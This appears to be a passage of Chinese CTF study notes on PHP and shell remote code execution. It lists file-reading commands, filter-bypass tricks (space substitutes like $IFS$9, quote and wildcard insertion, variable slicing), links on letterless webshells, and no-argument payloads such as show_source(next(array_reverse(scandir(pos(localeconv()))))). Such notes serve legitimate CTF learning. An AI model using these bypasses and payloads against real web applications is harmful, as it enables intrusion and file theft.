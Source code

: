 - 显示文件内容

  ```php
  cat、tac、more、less、head、tail、nl、sed、sort、uniq、rev
  file_get_content()、show_source()、include()、highlight_file()
  
  假如:和括号被禁，就需要使用一些无需括号的语言结构，如：echo、print、isset、unset、include、require
  ```
  
- 一些bypass

  ```php
  空格：
  	%09
  	$IFS$9（url编码下$9为linuxshell进程的第九个参数，始终为空字符）、${IFS}
  	<>、<
  	利用输出作为输入：?a=flag.php -> ?a={ls,-l}
  黑名单：
  	通配符、占位符：*、？
  	夹杂字符：''、""、``、${x}、$1、\、
  	${}:
  	会识别包含的第一个字符，只要将第一个字符修改为如空格，tab，注释，回车就会避免被直接当成变量，而将其执行为PHP代码
  	ps:在被“”包裹时候直接${}是不可以的，因为PHP将会将它识别为可变变量而不是一个PHP代码
  利用系统变量切片构造命令：
  	如/ = ${PATH:0:1} = /bin/xxx[0]
  ```
  
- 无字母数字rce
  [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html) 
  [无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）](https://blog.csdn.net/miuzzx/article/details/109143413)
  eg：极客大挑战2019 rce me

  > 异或生成命令![](https://i.loli.net/2021/04/21/vCOrG7lMoFH2dVa.png)
  >
  > 执行：![](https://i.loli.net/2021/04/21/hiUkTYXbFSc2Cwo.png)
  > 同理构造一句话：
  > ![](https://i.loli.net/2021/04/21/BLbCJk12NQGVmtK.png)
  > 执行如下：![](https://i.loli.net/2021/04/21/1GJSj278QlNWvcg.png)
  > 蚁剑连接，disable_function绕过一下即可
  > ![](https://i.loli.net/2021/04/21/967z2HlmZa8cTgJ.png)

- 无参数函数rce
  [php无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)
  eg:GXYCTF禁止套娃
  执行利用变量获取flag.php，再将其显示出来

  ```php
  scandir(目录,[0|1:升|降序],[context])——列出指定路径中的文件和目录localeconv()——返回一包含本地数字及货币格式信息的数组,数组第一项是.
  current()——返回数组中的当前元素值, 默认取第一个值，别名为pos()
  array_reverse()——逆向输出数组
  array_flip()交换数组的键和值
  array_rand()从数组随机一个或多个单元，不断刷新访问就会不断随机返回
  最终payload：
  show_source(next(array_reverse(scandir(pos(localeconv())))));
  highlight_file(next(array_reverse(scandir(current(localeconv())))));
  highlight_file(array_rand(array_flip(scandir(current(localeconv())))));
  highlight_file(next(array_reverse(scandir(current(localeconv())))));
  ```
- 利用系统变量切片构造命令（黑名单绕过）
